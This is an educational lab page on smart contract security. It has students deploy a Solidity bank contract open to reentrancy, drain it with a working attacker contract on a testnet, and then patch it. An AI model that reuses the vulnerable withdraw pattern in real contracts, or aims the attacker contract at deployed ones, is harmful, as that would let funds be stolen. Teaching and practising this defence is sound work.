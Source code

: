 ```yaml
---
title: "Blockchain Security & Smart Contract Exploitation Lab"
description: "Deploy vulnerable smart contracts and simulate real-world exploits using Ethereum tools like Remix IDE and Hardhat."
date: 2025-03-22
tags: ["Blockchain Security", "Smart Contracts", "Solidity", "Web3 Exploits"]
categories: ["Emerging Technologies & Research"]
draft: false
---
```


# Blockchain Security & Smart Contract Exploitation Lab

## **Overview**
This lab introduces students to smart contract security by deploying vulnerable code on Ethereum testnets and executing common Web3 exploits. You'll analyze and patch contract weaknesses while exploring blockchain’s role in cybersecurity.

---

## **Lab Instructions**

### **1. Setting Up Your Environment**
You will need:
- A browser with [Remix IDE](https://remix.ethereum.org)
- Alternatively: install **Node.js**, **Hardhat**, and **Ganache** locally
- A MetaMask wallet connected to the Goerli testnet (or use local testing network)

---

### **2. Deploy a Vulnerable Smart Contract**
Paste this Solidity code into Remix:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableBank {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0);
        payable(msg.sender).call{value: balances[msg.sender]}("");
        balances[msg.sender] = 0;
    }
}
```
🛑 This contract is vulnerable to a **reentrancy attack**.

Deploy it on Remix with Injected Web3 or Hardhat localnet.

---

### **3. Exploit the Vulnerability**
Deploy an attacker contract to exploit the `withdraw()` logic:
```solidity
contract Attacker {
    VulnerableBank public bank;

    constructor(address _bank) {
        bank = VulnerableBank(_bank);
    }

    fallback() external payable {
        if (address(bank).balance > 0) {
            bank.withdraw();
        }
    }

    function attack() public payable {
        bank.deposit{value: msg.value}();
        bank.withdraw();
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
Test the exploit and observe how funds are drained through recursion.

📝 **Checkpoint:** Capture a screenshot of the attack in progress and note the balance changes.

---

### **4. Patch the Vulnerability**
Refactor the original contract to use the **checks-effects-interactions pattern**:
```solidity
function withdraw() public {
    uint amount = balances[msg.sender];
    require(amount > 0);
    balances[msg.sender] = 0;
    payable(msg.sender).transfer(amount);
}
```
Test that the attack fails after applying the patch.

---

### **5. Explore Additional Attack Vectors (Optional)**
- **Front-running:** Use a script or testing framework to simulate transaction ordering attacks
- **Integer overflow/underflow:** Try using older versions of Solidity (pre-0.8) without SafeMath
- **Logic bugs:** Misconfigured access control or hidden backdoors

---

### **6. Bonus: Blockchain Logging and Integrity Use Case**
Design a simple smart contract that stores hashed log entries:
```solidity
contract SecureLogger {
    event LogWritten(bytes32 indexed hash, uint timestamp);

    function writeLog(bytes32 hash) public {
        emit LogWritten(hash, block.timestamp);
    }
}
```
Discuss how this could support tamper-proof audit trails.

---

## **Final Submission**
Submit a report that includes:
- Your deployed contract addresses and screenshots of exploits
- Patched contract code and confirmation of fix
- A short write-up on blockchain’s potential and risks in cybersecurity

🚀 **You've just executed and mitigated your first blockchain exploit!** 🚀
